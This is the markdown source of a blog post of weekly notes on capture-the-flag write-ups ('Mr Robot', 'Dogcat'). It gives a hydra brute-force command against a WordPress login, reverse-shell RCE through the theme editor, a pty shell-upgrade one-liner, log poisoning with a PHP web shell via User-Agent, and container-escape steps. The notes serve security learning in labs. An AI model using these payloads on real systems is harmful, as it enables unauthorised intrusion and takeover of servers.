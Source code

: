 ```yaml
---
title: Weekly Review 1
date: 2023-10-08
categories: [Review]
tags: [hydra, interactiveshell, wordpress]
img_path: /assets/review/
mermaid: true
---
```

## [Mr Robot](https://cspanias.github.io/posts/Mr-Robot-Write-Up-(2023)/) 

### Dictionary Attack with hydra

1. Login with random creds and check for login error message. 
2. Capture POST request to get its params.
3. Try building a username list by using static pass.
4. If users found, try the reverse. 

 ```shell
 hydra -L <username_list> -p <static_pass> <target-ip> http-post-form "/login_dir:log=^USER^&pwd=^PASS^:F=<error message>" -t 30
 ```
 
 ### RCE on WordPpress 
 
 1. We need admin acc for accessing Appearance --> Editor.
 2. Replance an appropriate PHP script with reverse shell code. 
 
 Interactive terminal
 
 ```shell
 python -c 'import pty;pty.spawn("/bin/bash");'
 ```
 
 ## [Dogcat](https://cspanias.github.io/posts/Dogcat-Write-Up-(2023)/)
 
 ### Log Poisoning
 
 1. NULL Byte usage: `%00` / `&`.
 2. In case we can perform `../` in an Apache web server, we can target its **log file** under `/var/log/apache2/access.log`.
 3. Use the **User-Agent** of the captured request and replace it with code accepting commands:
 ```PHP
 <?php system($_GET['c']); ?>
 ```
 4. Now we can execute commands such as `/access.log&ext&c=<command>`, checking the output in the HTTP response.
 5. Run Metasploit's **web delivery** module, and pass the output as command.
 
 ### Container Escape
 
 1. Check ```hostname```. 
 2. To break out we need to find a way to launch a reverse shell from the current env (Inception concept).